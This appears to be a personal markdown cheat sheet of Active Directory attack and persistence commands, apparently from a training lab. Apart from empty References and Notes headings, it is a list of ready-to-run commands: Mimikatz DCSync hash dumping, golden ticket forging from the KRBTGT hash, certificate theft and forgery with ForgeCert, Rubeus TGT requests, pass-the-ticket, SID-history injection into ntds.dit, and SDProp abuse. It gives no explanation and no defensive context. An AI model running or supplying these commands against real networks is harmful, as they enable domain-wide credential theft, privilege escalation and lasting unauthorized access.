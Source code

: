 # References

# Notes

# Commands
SSH
~~~
ssh za\\<uname>@<fqdn>
~~~

Mimikatz - DCSync
~~~
mimikatz # lsadump::dcsync /domain:<fqdn> /user:<Uname>
mimikatz # lsadump::dcsync /domain:<fqdn> /all
~~~

Mimikatz - Golden Ticket
~~~
mimikatz # kerberos::golden /admin:<account> /domain:<fqdn> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
~~~

Mimikatz View Certs & export
~~~
mimikatz # crypto::certificates /systemstore:local_machine
mimikatz # crypto::certificates /systemstore:local_machine /export
~~~


Validate Golden Ticket 
~~~
ssh shell shell path>dir \\<fqdn>\c$\
~~~

Generate New Certs with ForgeCerts
~~~
>C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath <file>.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName <uname>@<domain> --NewCertPath <filename>.pfx --NewCertPassword <passwordd>
~~~

Rubeus request a TGT 
~~~
C:\Tools\Rubeus.exe asktgt /user:<uname> /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:<name of file to write TGT to> /domain:<fqdn> /dc:<IP of domain controller>
~~~


Mimikatz Load the TGT
~~~
mimikatz # kerberos::ptt administrator.kirbi
~~~

Domain Enum
~~~
Get-ADDomain
Get-ADGroupMember -Identity "Domain Admins"
~~~

DSInternals Patch NTDS.dit file
~~~
> Stop-Service -Name ntds -force
> Add-ADDBSidHistory -SamAccountName '<username AD account>' -SidHistory '<sid to add>' -DatabasePath C:\Windows\NTDS\ntds.dit
> Start-Service -Name ntds
~~~

SDprop
~~~
Invoke-ADSDPropagation
~~~